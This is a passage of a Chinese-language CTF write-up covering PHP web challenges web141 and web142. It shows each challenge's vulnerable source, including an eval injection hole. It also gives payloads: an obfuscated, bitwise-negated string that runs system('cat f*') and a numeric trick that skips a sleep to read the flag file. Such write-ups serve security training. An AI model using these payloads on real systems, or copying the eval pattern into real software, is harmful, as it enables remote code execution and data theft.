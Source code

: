```php
<?php
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
} 
```

> if(preg_match('/^\W+$/', $v3)) 匹配所有非字符
>
> 在php里，数字是可以和命令进行一些运算的，例如 `1-phpinfo();`是可以执行phpinfo()命令的
>
> eval("1-phpinfo()-1;"); 也可以运行phpinfo函数



payload：

```
v1=1&v3=-(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%99%D5)-&v2=1
取反前:system('cat f*')
```

## web142

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1'])){
    $v1 = (String)$_GET['v1'];
    if(is_numeric($v1)){
        $d = (int)($v1 * 0x36d * 0x36d * 0x36d * 0x36d * 0x36d);
        sleep($d);
        echo file_get_contents("flag.php");
    }
} 
```

payload:

```
v1=0 //八进制
v1=0x0 //十六进制
```

## web143(无数字字母rce)
